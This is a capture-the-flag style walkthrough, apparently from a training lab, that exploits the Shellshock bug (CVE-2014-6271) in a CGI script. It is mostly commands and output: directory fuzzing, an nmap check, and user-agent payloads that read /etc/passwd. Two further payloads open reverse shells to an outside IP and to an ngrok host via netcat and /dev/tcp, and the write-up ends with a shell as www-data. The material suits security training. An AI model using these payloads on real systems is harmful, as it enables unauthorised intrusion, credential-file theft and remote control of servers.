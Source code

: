 exploitation of  CVE-2014-6271.

To exploit "Shellshock", we need to find a way to "talk" to Bash. This implies finding a CGI that will use Bash. CGIs commonly use Python or Perl but it's not uncommon to find (on old servers), CGI written in Shell or even C. 
We can use the nmap script to scan all
https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?utm_source=dlvr.it&utm_medium=twitter
```
└─# ls /usr/share/nmap/scripts | grep "shellsho"
http-shellshock.nse
```

## Recon
**Fuzz Directory**
First i will search for hidden directory
```
└─# ffuf -u "https://ptl-5275fab7-85a2356f.libcurl.so/FUZZ" -w /usr/share/wordlists/dirb/common.txt
.htpasswd               [Status: 403, Size: 316, Words: 22, Lines: 12, Duration: 592ms]
.htaccess               [Status: 403, Size: 316, Words: 22, Lines: 12, Duration: 680ms]
                        [Status: 200, Size: 1789, Words: 576, Lines: 65, Duration: 843ms]
.hta                    [Status: 403, Size: 311, Words: 22, Lines: 12, Duration: 969ms]
cgi-bin                 [Status: 301, Size: 354, Words: 20, Lines: 10, Duration: 779ms]
cgi-bin/                [Status: 403, Size: 315, Words: 22, Lines: 12, Duration: 638ms]
css                     [Status: 301, Size: 350, Words: 20, Lines: 10, Duration: 1971ms]
favicon.ico             [Status: 200, Size: 14634, Words: 63, Lines: 77, Duration: 2659ms]
index.html              [Status: 200, Size: 1789, Words: 576, Lines: 65, Duration: 500ms]
js                      [Status: 301, Size: 349, Words: 20, Lines: 10, Duration: 2436ms]
server-status           [Status: 403, Size: 320, Words: 22, Lines: 12, Duration: 671ms]
:: Progress: [4614/4614] :: Job [1/1] :: 30 req/sec :: Duration: [0:02:29] :: Errors: 0 ::
```
Humm i got cgi-bin and `301`
I intercept the website on burp and i see that i have 

```
GET /cgi-bin/status 


{ "uptime": " 12:33:32 up 674 days, 4:13, 0 users, load average: 0.11, 0.09, 0.09", "kernel": "Linux 4ab33b1d6921 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux"} 

```
Humm good, it's look like Shellshock.
i will confirm it by using the nmap scaner
```
└─# nmap --script=http-shellshock.nse http://ptl-5275fab7-85a2356f.libcurl.so/
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-18 12:37 GMT

Vulnerable

```
Now to exploit it. we will change the user-agent
```
() { :;}; /bin/bash -c 'nc 192.168.234.166 1337 -e /bin/sh'

() { :;}; /bin/bash -c 'whoami'

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://ptl-5275fab7-85a2356f.libcurl.so/
```
```
└─# wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -c 'echo vulnerable'" http://ptl-31b11da62e1c-2a67a90c9572.libcurl.me/cgi-bin/status
--2023-11-18 13:16:19--  http://ptl-31b11da62e1c-2a67a90c9572.libcurl.me/cgi-bin/status
Resolving ptl-31b11da62e1c-2a67a90c9572.libcurl.me (ptl-31b11da62e1c-2a67a90c9572.libcurl.me)... 163.172.85.157
Connecting to ptl-31b11da62e1c-2a67a90c9572.libcurl.me (ptl-31b11da62e1c-2a67a90c9572.libcurl.me)|163.172.85.157|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11 [text/plain]
Saving to: ‘status’

status                       100%[=============================================>]      11  --.-KB/s    in 0s      

2023-11-18 13:16:21 (673 KB/s) - ‘status’ saved [11/11]

└─# wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -c 'cat /etc/passwd'" http://ptl-31b11da62e1c-2a67a90c9572.libcurl.me/cgi-bin/status
└─# cat status.1 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
                                                                          
```
Now i will replace with my shell
```
└─# wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18079 0>&1'" http://ptl-31b11da62e1c-2a67a90c9572.libcurl.me/cgi-bin/status

──(bloman㉿1337)-[~]
└─$ sudo rlwrap nc -lvnp 1337
[sudo] password for bloman: 
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59188
bash: no job control in this shell
www-data@41f9acb2030c:/var/www/cgi-bin$ 


```